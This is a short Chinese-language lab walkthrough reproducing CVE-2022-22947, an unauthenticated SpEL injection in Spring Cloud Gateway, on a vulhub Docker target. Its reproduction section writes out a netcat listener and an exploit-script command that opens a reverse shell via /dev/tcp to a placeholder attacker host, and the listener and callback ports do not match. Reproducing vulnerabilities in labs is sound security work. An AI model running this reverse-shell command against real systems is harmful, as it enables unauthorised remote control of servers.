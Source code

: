 
## 0x00 环境搭建

  下载
  git clone https://github.com/vulhub/vulhub.git
  
  进入到spring文件夹内
  执行docker-compose up -d
  
## 0x01 介绍

  Spring Cloud Gateway 是基于 Spring Framework 和 Spring Boot 构建的 API 网关，它旨在为微服务架构提供一种简单、有效、统一的 API 路由管理方式。
  
  近日VMware官方发布了Spring Cloud Gateway存在SPEL表达式注入漏洞CVE-2022-22947，可导致未授权远程命令执行漏洞。
  影响版本：
  Spring Cloud Gateway < 3.1.1
  Spring Cloud Gateway < 3.0.7
  Spring Cloud Gateway 其他已不再更新的版本
  
## 0x02 漏洞复现

   ![图片](https://user-images.githubusercontent.com/118274389/224453966-8001feba-4973-4871-990d-344b25e7bb30.png)
 监听
 nc -lnvp 2222
 ![图片](https://user-images.githubusercontent.com/118274389/224454036-ec895f35-7c3e-43a7-891d-8029f05c0380.png)

进行反弹

python3 cve-2022-22947.py http://192.168.16.142:8080/ "bash -c 'exec bash -i &>/dev/tcp/xx.xx.xx.xx/1234 <&1'"

![图片](https://user-images.githubusercontent.com/118274389/224454085-9907e1a2-0d47-43b0-bfd1-b33554cc1410.png)

  
